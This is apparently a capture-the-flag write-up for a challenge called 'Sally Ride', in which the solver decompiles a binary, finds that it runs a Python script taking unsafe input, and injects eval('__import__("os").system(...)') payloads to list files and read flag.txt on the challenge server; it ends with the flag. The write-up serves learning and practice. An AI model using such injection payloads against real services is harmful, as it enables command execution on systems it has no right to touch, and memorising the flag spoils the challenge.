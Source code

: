 # Sally Ride

## Description
> Sally Kristen Ride (May 26, 1951 – July 23, 2012) was an American astronaut and physicist. Born in Los Angeles, she joined NASA in 1978, and in 1983 became the first American woman and the third woman to fly in space, after cosmonauts Valentina Tereshkova in 1963 and Svetlana Savitskaya in 1982. She was the youngest American astronaut to have flown in space, having done so at the age of 32. - Wikipedia Entry

> Chal: I asked ChatGPT to build this binary to honor my hero, the first American woman in space, but its broken and I cannot seem to figure out why. Connect to `0.cloud.chals.io 10568` and help me return the flag.

### Attachments
[chal.bin](./chal.bin)

## Solution
* Opening the binary in Ghidra, and going through the main function, we see that it is running a python script.
![main](image.png)
* There is a vulnerability in the `input()` function in python.
* We may be able to inject code and get the flag.
* We can use the `eval()` function to execute python code.
* To list the files in the directory
```
eval('__import__("os").system("ls -la")')
```
![ls](image-1.png)
* We can see `flag.txt` in the directory.
* To view the contents of the `flag.txt` file
```
eval('__import__("os").system("cat flag.txt")')
```
![flag](image-2.png)

### FLAG
```
chctf{u_cant_B_Wh4t_u_caNT_S33}
```
## Resources

* https://github.com/mahaloz/ctf-wiki-en/blob/master/docs/pwn/linux/sandbox/python-sandbox-escape.md